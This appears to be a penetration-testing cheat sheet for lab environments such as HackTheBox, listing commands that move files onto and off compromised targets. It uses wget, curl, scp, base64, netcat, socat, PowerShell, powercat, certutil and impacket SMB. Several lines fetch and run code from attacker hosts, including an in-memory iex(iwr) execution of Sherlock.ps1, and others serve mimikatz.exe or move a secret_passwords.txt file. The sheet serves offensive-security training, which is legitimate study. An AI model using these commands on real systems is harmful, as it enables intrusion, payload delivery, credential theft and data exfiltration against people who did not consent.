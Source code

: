 # Transferring Files

## wget

```bash
python3 -m http.server 8000 # on kali machine
wget http://10.10.14.1:8000/linenum.sh # on target machine
```

## cURL

```bash
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

## SCP

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh # with ssh user creds
```

## Base64

```bash
lojique@htb[/htb]$ base64 shell -w 0
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Netcat

```bash
# to receive a file
nc -nlvp 4444 > incoming.exe
# to transfer a file
nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
```

## Socat

```bash
# to transfer
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
# to receive
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

## PowerShell

```
# download a file
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
# loads file in memory and runs it
iex (iwr http://192.168.119.217/Sherlock.ps1 -UseBasicParsing)
```

## Powercat

```
# listener
sudo nc -lnvp 443 > receiving_powercat.ps1
# send a file
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```

## Certutil

```
certutil.exe -urlcache -f http://<IP>/Sherlock.ps1 Sherlock,ps1
```

## Impacket SMB

```bash
# In directory with file
impacket-smbserver share .

# From victim
\\10.10.10.10\share\mimikatz.exe 
```
